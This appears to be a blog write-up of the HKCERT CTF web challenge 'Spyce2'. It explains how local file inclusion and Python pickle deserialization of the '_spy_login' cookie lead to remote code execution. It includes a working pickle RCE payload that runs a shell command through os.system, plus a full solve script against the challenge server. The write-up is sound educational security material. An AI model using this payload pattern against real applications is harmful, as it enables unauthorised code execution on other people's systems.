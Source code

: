 ```yaml
---
title: "HKCERTCTF 2021 Writeup"
date: 2022-11-15T17:00:10+08:00
draft: false
categories:
 - ctf
tags:
 - ctf
 - writeup
 - web
summary: "Writeup for HKCERT CTF 2022"
---
```


# Background
11 Nov 2021, 18:00 HKT — 13 Nov 2021, 18:00 HKT  
Format: Jeopardy  
Official URL: https://ctf.hkcert.org/  
Organisers: HKCERT, Black Bauhinia 
CTFtime: https://ctftime.org/event/1722 

After one lazy year, this blog is updated again and it is the writeup for the HKCERT CTF 2022, which is also the 2nd year I participated and got the same result - the 5-th in the open category.
This time I prepared only 1 writeup (not because of lazy :P) which has only 1 solve (:D) and it is an unintened solution (The author's method is about injecting payload to the sqlite database then include it). This also show the value of white-box penetration testing: when provided the full source code of an framework, we can always find many different ways to exploit.
Btw I hope I could have more time to update the blog, as there are few awesome red teaming related research I would like to share...

# Challenge
## Spyce2 - Web (400 points)
### Challenge :
> Flag 2: Read /flag2-*


### Files : 
[spyce_222c677640e7721636b146c58425aee3.zip](/files/HKCERT/spyce_222c677640e7721636b146c58425aee3.zip)

### Solution : 
This is part 2 of the challenge "Spyce". From the provided `Dockerfile`, we know that the filename of flag2 was appended with 64 random alphanumeric characters :

`RUN mv /flag2 /flag2-$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 64 | head -n 1)`

Recall in part 1, we can perform LFI to get the flag1 but since we don't know the exact file name of flag2, we cannot simply redo with LFI, but maybe we can try to achieve RCE from LFI (which is also a very common attack path). 

When it comes to "RCE from LFI", usually we will look into the logs and sessions. While nothing was found when searching for the logs, a folder `spyce-2.1/www/login-tokens` was found and it looks interesting (and suspicious) to me.

Next I tried to search for the relevant code that will interact with this folder and I found the file `spyce-2.1/spyceconf.py` with the line of code

`login_storage = FileStorage(os.path.join(SPYCE_HOME, 'www', 'login-tokens'))`,

suggesting this folder is responsible for storing some login information, maybe the login sessions? Also in the file a few lines followed are describing the tags to render login form, so let's try some local testing.

I spinned up a docker container and accessed one of the examples `spyce-2.1/www/docs/examples/login-optional.spy`. We can see a new file `spytoken-2` was created after a success login with user id `2`, and there is a cookie `_spy_login` set with the value storing in this file.

![local test]()

Through the LFI, we are able to access and retrieve the value of the session, so let's see if we could inject malicious payload to the session and gain RCE.

![LFI]()

Next let's try to search for the relevant code handling the session with the keyword `spytoken` and from the file `spyce-2.1/tags/_coreutil.py` we could find the relevant logic. When reviewing the code of the function `login_from_cookie`, the line of code 

`uid, token = pickle.loads(cookie['_spy_login'])`

caught my attention: it may be possible to achieve RCE via the Python pickle deserialization.

A quick poc (in Python version 2.7) was developed and it worked successfully, by sending a request to the page `login-optional.spy` (`login-required.spy` would work as well) and the file containing the result of listing root directory was created.

![RCE]()

```
import pickle
import os
import urllib
class genpoc(object):
    def __reduce__(self):
        s = "ls / > /home/spwnce/www/login-tokens/ja5on_givemetheflag.txt"
        return os.system, (s,)

e = genpoc()
poc = pickle.dumps(e)
print(urllib.quote(poc))
```
With the full filename of flag2, we could then get the flag via LFI used in part 1!
A sample automated script was attached below.

**Solve:**
```
import pickle
import os
import urllib
import requests

class genpoc(object):
    def __reduce__(self):
        s = "ls / > /home/spwnce/www/login-tokens/ja5on_givemetheflag.txt"
        return os.system, (s,)

# Generate the Python pickle deserialization payload
e = genpoc()
payload = urllib.quote(pickle.dumps(e))

url = "http://chal-b.hkcert22.pwnable.hk:28039"
cookies = {'_spy_login': payload}

# Python pickle deserialization RCE
r = requests.get(url + "/docs/examples/login-optional.spy", cookies=cookies)

# Get the full file name of flag2
r = requests.get(url + "/login-tokens/ja5on_givemetheflag.txt")
pos = r.text.find('flag2')

# LFI to get flag2
r = requests.get(url + "/dump.spy?path=/" + r.text[pos:pos+70])

print("Flag: ")
print(r.text)
```

FLAG : **hkcert22{LFI2RCE_again....Maybe_PSP_is_w0r5e_tyan_PHP}**